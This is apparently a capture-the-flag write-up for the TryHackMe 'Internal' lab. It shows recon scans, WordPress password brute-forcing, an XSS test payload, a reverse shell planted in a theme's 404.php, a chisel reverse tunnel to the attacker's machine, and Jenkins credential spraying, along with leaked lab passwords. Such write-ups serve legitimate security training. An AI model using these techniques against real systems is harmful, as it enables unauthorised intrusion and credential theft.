






# Internal #
### Note: Having accepted the project, you are provided with the client assessment environment.  Secure the User and Root flags and submit them to the dashboard as proof of exploitation. ###


### https://tryhackme.com/r/room/internal ###

------------------------------------------------------------------------------------------

### RECON: ### 
+ Ensure that you modify your hosts file to reflect internal.thm

+ Scan the target machine with Nmap and Gobuster:

```bash
nmap -sV -vv -A -p- -T4 internal.thm
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzpZTvmUlaHPpKH8X2SHMndoS+GsVlbhABHJt4TN/nKUSYeFEHbNzutQnj+DrUEwNMauqaWCY7vNeYguQUXLx4LM5ukMEC8IuJo0rcuKNmlyYrgBlFws3q2956v8urY7/McCFf5IsItQxurCDyfyU/erO7fO02n2iT5k7Bw2UWf8FPvM9/jahisbkA9/FQKou3mbaSANb5nSrPc7p9FbqKs1vGpFopdUTI2dl4OQ3TkQWNXpvaFl0j1ilRynu5zLr6FetD5WWZXAuCNHNmcRo/aPdoX9JXaPKGCcVywqMM/Qy+gSiiIKvmavX6rYlnRFWEp25EifIPuHQ0s8hSXqx5
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMFOI/P6nqicmk78vSNs4l+vk2+BQ0mBxB1KlJJPCYueaUExTH4Cxkqkpo/zJfZ77MHHDL5nnzTW+TO6e4mDMEw=
|   256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMlxubXGh//FE3OqdyitiEwfA2nNdCtdgLfDQxFHPyY0
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

```bash
gobuster dir -u http://internal.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -xtxt,php,html -t64
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 277]
/blog                 (Status: 301) [Size: 311] [--> http://internal.thm/blog/]
/index.html           (Status: 200) [Size: 10918]
/.php                 (Status: 403) [Size: 277]
/wordpress            (Status: 301) [Size: 316] [--> http://internal.thm/wordpress/]
/javascript           (Status: 301) [Size: 317] [--> http://internal.thm/javascript/]
/phpmyadmin           (Status: 301) [Size: 317] [--> http://internal.thm/phpmyadmin/]
/.php                 (Status: 403) [Size: 277]
/.html                (Status: 403) [Size: 277]
/server-status        (Status: 403) [Size: 277]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

### WORDPRESS ###
+ First we use tool "Wpscan" to scan the website wordpress:


+ We've found the user "admin" and we continue to scan user:

```bash
wpscan --url http://internal.thm/wordpress/ -U admin -P /usr/share/wordlists/rockyou.txt
```


--> We could brute-force the credential user "admin". 
 + After brute-force successfully we had the credential Wordpress admin:my2boys

+ Login with "admin", we are in Dashboard. Now we go to look around all features to find what the vulnearability will appear.
+ We've found the Private Post in Posts and the credential of user William but we do not know where we can log in with this. 


--> The credential was leaked: william:arnold147

-----------------------------------------------------------------------------------------

### XSS ###
+ The vulnerability XSS appear in feature "Comments".
+ We will test common payload XSS first:

```bash
<script>alert('XSS')</script>
```


+ When we update comment and "View Post" so the website pop up the box alert:


+ Second XSS we've found that is feature "Posts".
+ We edit the title of post and save it. When we view the post, the pop up alert will appear.


+ Third XSS that is the feature "Pages".
+ We edit the title page and when we review it the pop up alert will appear again.


-----------------------------------------------------------------------------------------------------

### Exploit Themes to RCE ###

+ When we've checked in Site Health page, we've known that we had 2 themes was out of date:

```bash
### wp-active-theme ###

name: Twenty Seventeen (twentyseventeen)
version: 2.3
author: the WordPress team
author_website: https://wordpress.org/
parent_theme: none
theme_features: automatic-feed-links, title-tag, post-thumbnails, menus, html5, post-formats, custom-logo, customize-selective-refresh-widgets, editor-style, editor-styles, wp-block-styles, responsive-embeds, starter-content, custom-header, widgets
theme_path: /var/www/html/wordpress/wp-content/themes/twentyseventeen

### wp-themes-inactive (2) ###

Twenty Nineteen: version: 1.5, author: the WordPress team (latest version: 1.6)
Twenty Twenty: version: 1.2, author: the WordPress team (latest version: 1.4)

### wp-plugins-inactive (2) ###

Akismet Anti-Spam: version: 4.1.5, author: Automattic (latest version: 4.1.6)
Hello Dolly: version: 1.7.2, author: Matt Mullenweg

### wp-filesystem ###

wordpress: not writable
wp-content: not writable
uploads: not writable
plugins: not writable
themes: not writable
```
--> Researching we know that theme is out of date will have the potential vulnearability in file "404.php". We are able to edit PHP file to RCE.

+ Checking 2 themes is out of date, theme "Twenty Nineteen" can't be edited but theme "Twenty Twenty" can be edited.
+ First we will active the theme "Twenty Twenty" replace theme "Twenty Seventeen". After we will edit file 404.php to RCE.
+ We can choose the webshell.php of PentestMonkey.
+ Update file successfully, we access the URL "http://internal.thm/wordpress/wp-content/themes/twentytwenty/404.php" and open netcat to catch the opened PORT.



+ RCE successfully and now we have to find the information to login user "aubreanna".
+ After a period of searching, we've found the interesting file in /opt.

```bash
www-data@internal:/$ cd /opt
cd /opt
www-data@internal:/opt$ ls
ls
containerd
wp-save.txt
www-data@internal:/opt$ cat wp-save.txt
cat wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
www-data@internal:/opt$ 
```

--> We've found the credential aubreanna:bubb13guM!@#123. We use it to login SSH.


-------------------------------------------------------------------------------------

### Tunnel Jenkins Server ###
+ After login successfully SSH user "aubreanna", we had the file name "jenkins.txt" and read it.

```bash
aubreanna@internal:~$ ls
jenkins.txt  snap  user.txt
aubreanna@internal:~$ cat jenkins.txt 
Internal Jenkins service is running on 172.17.0.2:8080
```

+ We've found the server Jenkins is running but we can't access directly into the Jenkins so we will check it:

```bash
aubreanna@internal:~$ ss -tl
State     Recv-Q      Send-Q            Local Address:Port               Peer Address:Port     
LISTEN    0           128                   127.0.0.1:33299                   0.0.0.0:*        
LISTEN    0           128               127.0.0.53%lo:domain                  0.0.0.0:*        
LISTEN    0           128                     0.0.0.0:ssh                     0.0.0.0:*        
LISTEN    0           80                    127.0.0.1:mysql                   0.0.0.0:*        
LISTEN    0           128                   127.0.0.1:http-alt                0.0.0.0:*        
LISTEN    0           128                        [::]:ssh                        [::]:*        
LISTEN    0           128                           *:http                          *:*   
```

+ We've seen "127.0.0.1:http-alt" that is port 8080 also is port Jenkins server which is running.
+ Now we will use Tunnel to create the way accessing the Jenkins. We use tool "Chisel" to create the Tunnel.

```bash
zicco@z-a:/usr/bin$ chisel server -p 5555 --reverse
2024/11/16 15:34:08 server: Reverse tunnelling enabled
2024/11/16 15:34:08 server: Fingerprint qfX9SVjQY9DeTP/8LeaLgu29Us/gDcfEq3KOJQQCf5U=
2024/11/16 15:34:08 server: Listening on http://0.0.0.0:5555
2024/11/16 15:37:33 server: session#1: tun: proxy#R:8080=>8080: Listening
```

```bash
aubreanna@internal:~$ ./chisel client 10.11.101.46:5555 R:8080:127.0.0.1:8080 &
[1] 2080
aubreanna@internal:~$ 2024/11/16 08:37:32 client: Connecting to ws://10.11.101.46:5555
2024/11/16 08:37:34 client: Connected (Latency 304.454537ms)
```



+ Access successfully page Jenkins, we try the default credential admin:admin
--> But not success
+ We try to brute force the credential admin. But we can not brute-force normaly by using Hydra so we need to use other way to brute-force.
+ We can use script python or Metasploit to brute-force.
+ Link: "https://github.com/RajChowdhury240/Jenkins-PenTest"

```bash
# Using script Python:
    zicco@z-a:~/Documents/CTFs/Internal/Jenkins-PenTest$ python3 jenkins_password_spraying.py --help
usage: jenkins_password_spraying.py [-h] [-u USER] [-U USER_FILE] [-p PASSWORD] [-P PASSWORD_FILE]
                                    [-e]
                                    url [url ...]

Jenkins password sprayer
options:
  -h, --help            show this help message and exit
  -u USER, --user USER
  -U USER_FILE, --user_file USER_FILE
  -p PASSWORD, --password PASSWORD
  -P PASSWORD_FILE, --password_file PASSWORD_FILE
  -e, --additional_checks
                        Try username as password
    zicco@z-a:~/Documents/CTFs/Internal/Jenkins-PenTest$ python3 jenkins_password_spraying.py --user admin --password_file /usr/share/wordlists/rockyou.txt http://127.0.0.1:8080/login 
Matching password spongebob for user admin
```

```bash
# Using Metasploit
# We just set some parameters which we need like PASS_FILE, RHOSTS, THREADS, USERNAME
msf6 auxiliary(scanner/http/jenkins_login) > options
msf6 auxiliary(scanner/http/jenkins_login) > run

[+] 127.0.0.1:8080 - Login Successful: admin:spongebob
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

+ Login again Jenkins and RCE:





+ Like the way we find the credential user, we access again /opt and we found the file note.txt.
Read it and we've got the credential user Root.



+ Login SSH with the credential root and get the final flag.



END!!!